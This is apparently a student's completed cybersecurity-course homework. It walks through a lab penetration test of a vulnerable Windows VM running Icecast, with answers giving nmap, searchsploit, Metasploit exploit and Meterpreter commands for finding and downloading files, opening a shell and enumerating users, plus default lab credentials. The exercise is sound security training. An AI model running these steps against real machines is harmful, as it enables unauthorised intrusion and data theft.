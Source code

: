 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sS -sV -O 192.168.0.20
 
 ![image](https://user-images.githubusercontent.com/93744925/162008682-fdc94e85-549c-48a5-b371-68737f195ecb.png)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ssearchsploit icecast
 
![image](https://user-images.githubusercontent.com/93744925/162008112-e8bc8a93-b1ae-41f8-81e7-2a50f9908585.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast

 ![image](https://user-images.githubusercontent.com/93744925/162008024-172f8b7e-f257-4eeb-a25d-f11065715959.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0

 

5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set rhost 192.168.0.20
 
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit or run
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile*.txt

 ![image](https://user-images.githubusercontent.com/93744925/162008290-9da4d0d9-f396-4369-acf1-b77dc26a2660.png)

 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe*.txt

 ![image](https://user-images.githubusercontent.com/93744925/162007889-95ae065e-4dce-481a-8f86-0f5f626ee67c.png)

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download 'c:\\Users\IEUser\Documents\Drinks.recipe.txt'
 
 ![image](https://user-images.githubusercontent.com/93744925/162007638-c84b6e68-3bd6-4b23-beb1-e64726854ed8.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
![image](https://user-images.githubusercontent.com/93744925/162007763-97305197-a69b-4f72-bb66-e578b183b364.png)

B. Open a Meterpreter shell. 
 
  > Answer: shell
 
C. Run the command that displays the target's computer system information:

   > Answer: sysinfo
 

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
